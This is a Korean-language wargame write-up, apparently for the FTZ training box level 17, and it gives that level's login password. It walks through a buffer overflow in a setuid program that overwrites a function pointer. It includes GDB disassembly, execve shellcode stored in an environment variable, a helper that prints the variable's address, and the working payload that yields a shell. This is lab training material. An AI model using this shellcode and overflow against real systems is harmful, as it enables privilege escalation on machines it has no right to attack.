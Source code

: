 ```yaml
---
sort: 17
---
```


# Level 17

```note
id : level17

password : king poetic
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x080484a8 (main+0):	push   %ebp
0x080484a9 (main+1):	mov    %esp,%ebp
0x080484ab (main+3):	sub    $0x38,%esp

<b>0x080484ae (main+6):	movl   $0x8048490,0xfffffff0(%ebp) </b>

0x080484b5 (main+13):	sub    $0x4,%esp
0x080484b8 (main+16):	pushl  0x804967c
0x080484be (main+22):	push   $0x30

<b>0x080484c0 (main+24):	lea    0xffffffc8(%ebp),%eax
0x080484c3 (main+27):	push   %eax
0x080484c4 (main+28):	call   0x8048350 (fgets) </b>

0x080484c9 (main+33):	add    $0x10,%esp
0x080484cc (main+36):	sub    $0x8,%esp
0x080484cf (main+39):	push   $0xc1a
0x080484d4 (main+44):	push   $0xc1a
0x080484d9 (main+49):	call   0x8048380 (setreuid)
0x080484de (main+54):	add    $0x10,%esp

<b>0x080484e1 (main+57):	mov    0xfffffff0(%ebp),%eax
0x080484e4 (main+60):	call   *%eax </b>

0x080484e6 (main+62):	leave  
0x080484e7 (main+63):	ret
</pre>

함수포인터인 call에 저장되어있는 printit 함수 주소를 libc에 있는 system함수로 바꾸는 방법을 사용해보려고 했으나, esp 위치가 좋지 않아서 불가능했다.<br>
그 대신 고정적인 위치에 shellcode를 올려놓은 후, shellcode가 있는 주소값으로 덮어씌우기로 했다.<br>
환경변수는 비교적 고정적인 위치를 가지고 있기 때문에 shellcode를 가진 환경변수를 등록한 후 주소를 가지고 와서 사용하기로 했다.

```bash
[level17@ftz tmp]$ export shellcode=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80')")
```

환경변수의 주소값을 가져오기 위해 tmp폴더에서 아래와 같은 프로그램을 짰다.

```c
// vi shellcode.c
// gcc -o shellcode shellcode.c

#include <unistd.h>

int main(void)
{
        int p = getenv("shellcode");
        printf("%p\n", p);
        return 0;
}
```

가져온 환경변수의 주소값을 attackme에 알맞게 넣어주면 끝난다.

```bash
[level17@ftz tmp]$ ./shellcode 
0xbfffff02
[level17@ftz tmp]$ (python -c "print('A'*0x28+'\x02\xff\xff\xbf\n')";cat) | ../attackme
my-pass
```

```tip
## 알게 된 점

buffer overflow
```